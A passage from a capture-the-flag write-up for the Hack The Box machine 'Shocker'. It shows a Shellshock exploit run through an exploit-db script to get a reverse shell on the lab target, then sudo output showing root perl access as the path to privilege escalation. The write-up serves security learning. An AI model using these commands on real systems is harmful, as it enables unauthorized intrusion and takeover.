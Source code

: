 ```
2022-08-18 23:55:41 (144 KB/s) - ‘user.sh’ saved [118]

                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ cat user.sh           
Content-Type: text/plain

Just an uptime test script

 23:55:41 up  1:39,  0 users,  load average: 0.00, 0.00, 0.0o
```

It looks like this script is just for testing purposes but we can try to see if it can be exploited in some way. Right from a quick google search we can determine that there is a vulnerability called as Shellshock through which you can send a request with a modified User-Agent having a command that you want to execute on the target. In our case our goal is to gain a reverse shell. We can create a request by our own and start a listener or we can use [this script](https://www.exploit-db.com/exploits/34900),

```
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ python2.7 34900.py payload=reverse rhost=10.10.10.56 rport=80 lhost=10.10.16.4 lport=1337 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56> pwd
/usr/lib/cgi-bin
```

And there we get the access to the machine as user `shelly`. The next task is to escalate our privileges to root.

## Privilege Escalation

The first that we can do is check if we can execute any commands as root or any other user.

```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

And it looks like we can run `perl` commands as root. So, we can quickly head over to [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#suid) to see how we can utilize this command to escalate our privileges.
